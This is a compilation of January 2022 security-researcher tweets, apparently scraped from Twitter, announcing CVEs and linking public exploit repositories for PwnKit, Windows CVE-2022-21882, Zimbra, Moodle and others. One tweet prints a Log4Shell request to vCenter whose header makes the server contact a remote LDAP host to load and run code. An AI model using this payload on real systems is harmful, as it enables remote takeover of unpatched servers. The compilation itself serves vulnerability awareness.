# timstrazz
**https://twitter.com/timstrazz/status/1488198848912658434 _at 2022-01-31, 17:13:49_**
<blockquote>
Writeup and exploit for installed app to system privilege escalation on Android 12 Beta through CVE-2021-0928, a `writeToParcel`/`createFromParcel` serialization mismatch in `OutputConfiguration` https://t.co/bzoEWfTPIV &lt; Good read
</blockquote>

* https://github.com/michalbednarski/ReparcelBug2

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# an0n_r0
**https://twitter.com/an0n_r0/status/1487615017688211457 _at 2022-01-30, 02:33:53_**
<blockquote>
quickly tested the CVE-2022-21882 Win10 LPE PoC from @kalendsi before applying KB5009543 (which should patch it). works nicely on my 21H2 19044.1415.  https://t.co/gvozRBxeU1 https://t.co/f0zej818Lf
</blockquote>

* https://github.com/KaLendsi/CVE-2022-21882

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---

# Alra3ees
**https://twitter.com/Alra3ees/status/1487483996250456078 _at 2022-01-29, 17:53:15_**
<blockquote>
Zimbra Mail System Vulnerability XE/RCE/SSRF/Upload GetShell Exploit 1. (CVE-2019-9621 Zimbra&lt;8.8.11 XXE GetShell Exploit)

https://t.co/0TS616lEWL
</blockquote>

* https://github.com/k8gege/ZimbraExploit

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---

# HackingDave
**https://twitter.com/HackingDave/status/1487424405290561539 _at 2022-01-29, 13:56:27_**
<blockquote>
CVE-2022-21882 LPE/bypass for CVE-2021-1732 exploit code:

https://t.co/Uq4hDvLL69
</blockquote>

* https://github.com/KaLendsi/CVE-2022-21882

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1487205136174878721 _at 2022-01-28, 23:25:10_**
<blockquote>
Yup.  This CVE-2022-21882 PoC works. https://t.co/cZA5eL8UpK
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>78</code></td>
<td>Favorites: <code>296</code></td>
</tr></table>

---

# numanturle
**https://twitter.com/numanturle/status/1486858633975631878 _at 2022-01-28, 00:28:17_**
<blockquote>
https://t.co/hmvoldUrkg 
CVE-2021-43789 
Prestashop &gt;= 1.7.5.0 &lt; 1.7.8.2 - SQL injection
order[sortOrder] 
order[orderBy]
</blockquote>

* https://github.com/numanturle/CVE-2021-43789

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1486758635552210944 _at 2022-01-27, 17:50:56_**
<blockquote>
Detect and alert on #PwnKit privilege escalation vulnerability with CrowdSec.

@Crowd_Security published a collection targeting #Linux Local Privilege Escalation, and CVE-2021-4034 is its first scenario!

https://t.co/25l80m9uLA

#infosec
</blockquote>

* https://crowdsec.net/blog/pwnkit-avoid-privilege-escalation-with-crowdsec/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# xtremepentest
**https://twitter.com/xtremepentest/status/1486610996080914432 _at 2022-01-27, 08:04:16_**
<blockquote>
Pwnkit: Linux Local Privilege Escalation POC - Polkit Pkexec (CVE-2021-4034)

Another local privilege escalation comes out that affects most Linux distros out there. This CVE came out last year and the POC and update just got released today.

A thread🧵 https://t.co/a4md2P9smc
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---

# 0dayCTF
**https://twitter.com/0dayCTF/status/1486516690452164611 _at 2022-01-27, 01:49:31_**
<blockquote>
CVE-2021-4034 - Statically Linked Binary
-
Researchers from @Qualys discovered a 12 year old LPE vulnerability in polkit’s pkexec component .
-
File: https://t.co/7GU2GVd60e
-
Credit will be added when I get it!
-
#CyberSecurity #infosec #bugbounty #CTF #CVE https://t.co/RnHZOKtgfN
</blockquote>

* https://transfer.sh/JDDmFj/pk

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---

# ryanaraine
**https://twitter.com/ryanaraine/status/1486469495354843145 _at 2022-01-26, 22:41:59_**
<blockquote>
For those keeping score, Microsoft's CVE-2022-21882 is the first publicly documented in-the-wild 0day for 2022.

Here's confirmation buried in a bulletin update: https://t.co/SgenOKY7qR
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1486436693888667651 _at 2022-01-26, 20:31:39_**
<blockquote>
CVE-2022-0332: Moodle 3.11 to 3.11.4 - SQL injection

PoC
https://t.co/KEMstBeUPV https://t.co/y6vnoGaAdl
</blockquote>

* https://github.com/numanturle/CVE-2022-0332

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>310</code></td>
</tr></table>

---

# ly4k_
**https://twitter.com/ly4k_/status/1486346108964159496 _at 2022-01-26, 14:31:42_**
<blockquote>
Created a self-contained exploit for CVE-2021-4034 (1-day Pkexec Local Privilege Escalation). Should work out of the box on Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

https://t.co/M0IoDDVneK
</blockquote>

* https://github.com/ly4k/PwnKit

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>186</code></td>
<td>Favorites: <code>448</code></td>
</tr></table>

---

# RabbitPro
**https://twitter.com/RabbitPro/status/1486274848737443840 _at 2022-01-26, 09:48:32_**
<blockquote>
PwnKit vulnerability and exploitation is just pure gold! 

CVE-2021-4034: LPE in pkexec

https://t.co/9YdT41TWP9
</blockquote>

* https://seclists.org/oss-sec/2022/q1/80

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1486179258515210240 _at 2022-01-26, 03:28:41_**
<blockquote>
GitHub - arthepsy/CVE-2021-4034: PoC for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) - https://t.co/gYMyeNlGlz
</blockquote>

* https://github.com/arthepsy/CVE-2021-4034

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# _JohnHammond
**https://twitter.com/_JohnHammond/status/1486143827262033920 _at 2022-01-26, 01:07:54_**
<blockquote>
Why compile, when you can just pipe curl to bash?? 🤣😂🤣CVE-2021-4034 https://t.co/zUBAFzMGZR
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>546</code></td>
</tr></table>

---

# HaifeiLi
**https://twitter.com/HaifeiLi/status/1486133229614616577 _at 2022-01-26, 00:25:47_**
<blockquote>
Remember in November Patch Tuesday Microsoft fixed an Excel zero-day attack in the wild (CVE-2021-42292) but no details shared (https://t.co/UN3bNYg8Tg)? Well, after reading the Trellix (formerly McAfee) blogpost https://t.co/TYsBZlbwMX, I think I figured it out.:). A thread.
</blockquote>

* https://twitter.com/HaifeiLi/status/1458144361561034756
* https://www.trellix.com/en-gb/about/newsroom/stories/threat-labs/prime-ministers-office-compromised.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1486106541665226753 _at 2022-01-25, 22:39:44_**
<blockquote>
The exploit for CVE-2021-4034 is both simple and universal.  What's not to love? https://t.co/ZRsbd0So53
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>306</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1484423859797622784 _at 2022-01-21, 07:13:22_**
<blockquote>
VMware vCenter Server Unauthenticated Log4Shell JNDI Injection RCE (CVE-2021-44228)

GET /websso/SAML2/SLO/vsphere.local?SAMLRequest= HTTP/1.1
X-Forwarded-For: ${jndi:ldap://10.10.10.10:1389/Exploit}

https://t.co/NDKkQK3csc
</blockquote>

* https://packetstormsecurity.com/files/165642/VMware-vCenter-Server-Unauthenticated-Log4Shell-JNDI-Injection-Remote-Code-Execution.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>332</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1484028070692782083 _at 2022-01-20, 05:00:38_**
<blockquote>
#Microsoft has detected hackers exploiting a new zero-day vulnerability (CVE-2021-35247) in #SolarWinds Serv-U software related to #Log4j attacks.

Read: https://t.co/Cc6iyLZ7RS

Serv-U version 15.3 has been released to patch the issue.

#infosec #cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2022/01/microsoft-hackers-exploiting-new.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>115</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1483798563092107266 _at 2022-01-19, 13:48:39_**
<blockquote>
Reminder:
Finding privilege escalation vulnerabilities in Windows using Process Monitor is perhaps the easiest way to find a vulnerability, ever.
See CVE-2022-0166
https://t.co/cHg2W0khSS https://t.co/8amdUcprgj
</blockquote>

* https://vuls.cert.org/confluence/display/Wiki/2021/06/21/Finding+Privilege+Escalation+Vulnerabilities+in+Windows+using+Process+Monitor

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>214</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1483502992959623168 _at 2022-01-18, 18:14:10_**
<blockquote>
CVE-2022-21907: HTTP Protocol Stack Remote Code Execution Vulnerability
https://t.co/z2Jwhy3OU3
PoC
https://t.co/PEg6bHlccW https://t.co/xGWChBTroc
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21907
* https://github.com/antx-code/CVE-2022-21907

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---

# podalirius_
**https://twitter.com/podalirius_/status/1483483624045481992 _at 2022-01-18, 16:57:12_**
<blockquote>
[#thread 🧵] Last week in #Microsoft #PatchTuesday, a critical vulnerability was patched that theoretically allows attackers to achieve Remote Code Execution on a target #IIS server (CVE-2022-21907). I'll explain how it works in this thread ⬇️ https://t.co/edEpUSq7uv
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>135</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1483463004578590730 _at 2022-01-18, 15:35:16_**
<blockquote>
Windows HTTP Stack Remote Code Execution Vulnerability CVE-2022-21907 https://t.co/5cKhVR6HqR
</blockquote>

* https://github.com/antx-code/CVE-2022-21907

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>96</code></td>
</tr></table>

---

# infosec_au
**https://twitter.com/infosec_au/status/1483269616785063936 _at 2022-01-18, 02:46:49_**
<blockquote>
A few months ago, we discovered a post-auth SSRF in VMWare Workspace One Access - CVE-2021-22056 - which allowed you to steal an admin JWT via CSRF or request arbitrary URLs. Check out our blog post!  https://t.co/q0UdqFsgMJ
</blockquote>

* https://blog.assetnote.io/2022/01/17/workspace-one-access-ssrf/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>125</code></td>
</tr></table>

---

# LukasStefanko
**https://twitter.com/LukasStefanko/status/1481975013884452867 _at 2022-01-14, 13:02:31_**
<blockquote>
RCE in Adobe Acrobat Reader for Android (CVE-2021-40724)

$10,000 bounty received from GPSRP

Excellent exploitation and write-up by @hulkvision 
Report: https://t.co/NIFQnlbRiZ

Quick summary how it was achieved👇 https://t.co/Ge1qKac98L
</blockquote>

* https://hulkvision.github.io/blog/post1/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>118</code></td>
<td>Favorites: <code>401</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1481411553698238465 _at 2022-01-12, 23:43:32_**
<blockquote>
i'll admit - when i found it, i wasn't totally sure if i could get LPE with this strange little kernel bug alone. it took triggering the vuln 4x to do a full privesc with #CVE-2021-41073, a vuln in io_uring. blog post soon :) https://t.co/2dJKDMLdUv
</blockquote>

<table><tr>
